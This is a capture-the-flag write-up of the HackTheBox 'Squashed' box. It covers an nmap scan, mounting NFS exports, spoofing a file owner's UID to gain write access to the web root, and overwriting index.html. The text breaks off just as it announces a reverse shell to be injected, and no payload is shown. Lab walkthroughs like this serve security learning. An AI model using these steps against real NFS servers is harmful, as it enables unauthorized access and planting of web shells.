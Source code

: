 # Box: Squashed
# Level: Easy
# OS: Linux
<hr>

Lets get started 

# Recon

## PortScanning

command:```sudo nmap -A 10.129.229.66 -v -p- -T4```

```
Nmap scan report for 10.129.74.160
Host is up (0.21s latency).
Not shown: 65527 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      32823/tcp6  mountd
|   100005  1,2,3      35624/udp   mountd
|   100005  1,2,3      42069/udp6  mountd
|   100005  1,2,3      51975/tcp   mountd
|   100021  1,3,4      35047/tcp6  nlockmgr
|   100021  1,3,4      39803/tcp   nlockmgr
|   100021  1,3,4      47441/udp6  nlockmgr
|   100021  1,3,4      53215/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
39803/tcp open  nlockmgr 1-4 (RPC #100021)
44707/tcp open  mountd   1-3 (RPC #100005)
51975/tcp open  mountd   1-3 (RPC #100005)
57011/tcp open  mountd   1-3 (RPC #100005)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/24%OT=22%CT=1%CU=44295%PV=Y%DS=2%DC=T%G=Y%TM=653712
OS:EB%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)SE
OS:Q(SP=102%GCD=2%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST1
OS:1NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE
OS:88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5
OS:3CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4
OS:(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%
OS:T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%R
OS:ID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 29.196 days (since Sun Sep 24 20:59:31 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   315.93 ms 10.10.14.1
2   315.98 ms 10.129.74.160

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 24 01:42:19 2023 -- 1 IP address (1 host up) scanned in 1143.08 seconds
```
From our nmap scan we have quite a number of ports open. We'll be starting our enumeration today from the port running the nfs service (port 2049)



# Enumeration (Port 2049)

To show mounts, we can use the command below

command:```showmoumt -e 10.129.74.160```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/squashed]
└─$ showmount -e 10.129.74.160        
Export list for 10.129.74.160:
/home/ross    *
/var/www/html *
```
Lets start by mounting the share ```/var/www/html```

commands
```
sudo mkdir /mnt/backup
sudo mount -t nfs 10.129.74.160:/home/ross /mnt/backup
```
```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/squashed]
└─$ sudo mkdir /mnt/backup                               
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/squashed]
└─$ sudo mount -t nfs 10.129.74.160:/home/ross /mnt/backup
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/squashed]
└─$ cd /mnt/backup                           
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[/mnt/backup]
└─$ ls -la          
total 68
drwxr-xr-x 14 1001 1001 4096 Oct 24 01:20 .
drwxr-xr-x  5 root root 4096 Oct 24 01:57 ..
-rw-------  1 1001 1001   57 Oct 24 01:20 .Xauthority
lrwxrwxrwx  1 root root    9 Oct 20  2022 .bash_history -> /dev/null
drwx------ 11 1001 1001 4096 Oct 21  2022 .cache
drwx------ 12 1001 1001 4096 Oct 21  2022 .config
drwx------  3 1001 1001 4096 Oct 21  2022 .gnupg
drwx------  3 1001 1001 4096 Oct 21  2022 .local
lrwxrwxrwx  1 root root    9 Oct 21  2022 .viminfo -> /dev/null
-rw-------  1 1001 1001 2475 Oct 24 01:20 .xsession-errors
-rw-------  1 1001 1001 2475 Dec 27  2022 .xsession-errors.old
drwxr-xr-x  2 1001 1001 4096 Oct 21  2022 Desktop
drwxr-xr-x  2 1001 1001 4096 Oct 21  2022 Documents
drwxr-xr-x  2 1001 1001 4096 Oct 21  2022 Downloads
drwxr-xr-x  2 1001 1001 4096 Oct 21  2022 Music
drwxr-xr-x  2 1001 1001 4096 Oct 21  2022 Pictures
drwxr-xr-x  2 1001 1001 4096 Oct 21  2022 Public
drwxr-xr-x  2 1001 1001 4096 Oct 21  2022 Templates
drwxr-xr-x  2 1001 1001 4096 Oct 21  2022 Videos
```
There was really nothing interesting here actually.

Lets mount the second share ```/var/www/html```

commands
```
 sudo mkdir /mnt/new_backup
sudo mount -t nfs 10.129.74.160:/var/www/html /mnt/new_backup
```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/squashed]
└─$ sudo mkdir /mnt/new_backup 
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/squashed]
└─$ sudo mount -t nfs 10.129.74.160:/var/www/html /mnt/new_backup
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/squashed]
└─$ cd /mnt/new_backup 
cd: permission denied: /mnt/new_backup
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/squashed]
└─$ ls -la /mnt/new_backup 
ls: cannot access '/mnt/new_backup/.': Permission denied
ls: cannot access '/mnt/new_backup/..': Permission denied
ls: cannot access '/mnt/new_backup/.htaccess': Permission denied
ls: cannot access '/mnt/new_backup/index.html': Permission denied
ls: cannot access '/mnt/new_backup/images': Permission denied
ls: cannot access '/mnt/new_backup/css': Permission denied
ls: cannot access '/mnt/new_backup/js': Permission denied
total 0
d????????? ? ? ? ?            ? .
d????????? ? ? ? ?            ? ..
?????????? ? ? ? ?            ? .htaccess
?????????? ? ? ? ?            ? css
?????????? ? ? ? ?            ? images
?????????? ? ? ? ?            ? index.html
?????????? ? ? ? ?            ? js
```
oops, we can't view the share we mounted.

We can modify the uid of this user, but before we do that we have to get the uid value itself

command:```stat -c "%u" new_backup```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/squashed]
└─$ cd /mnt                                                      
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[/mnt]
└─$ stat -c "%u" new_backup 
2017
```
We can see the owner of that directory has an uid of ```2017```

Lets use the ```usermod``` command to modify the uid of this user, before that we'll create a new user

commands
```
sudo useradd senjumaru
sudo passwd senjumaru
sudo usermod -u 2017 senjumaru
su senjumaru
python3 -c "import pty;pty.spawn('/bin/bash')"
cd /mnt/new_backup
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e75be6c2-5086-4a39-916c-b5c82afe47d3)

cool cool, we can now view the contents of that directory, which means we have read and write access.

Lets modify the contents of the ```index.html``` file, then we'll head over to the webpage to see if it works

```
senjumaru@bl4ck4non-sec:/mnt/new_backup$ echo "vawulence" > index.html
senjumaru@bl4ck4non-sec:/mnt/new_backup$ cat index.html 
vawulence
```
Navigating to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/331e71c6-2679-4ead-a0a8-47ab10d440a2)

Worked hehe.

Lets inject our reverse shell into this 

command:```echo "




























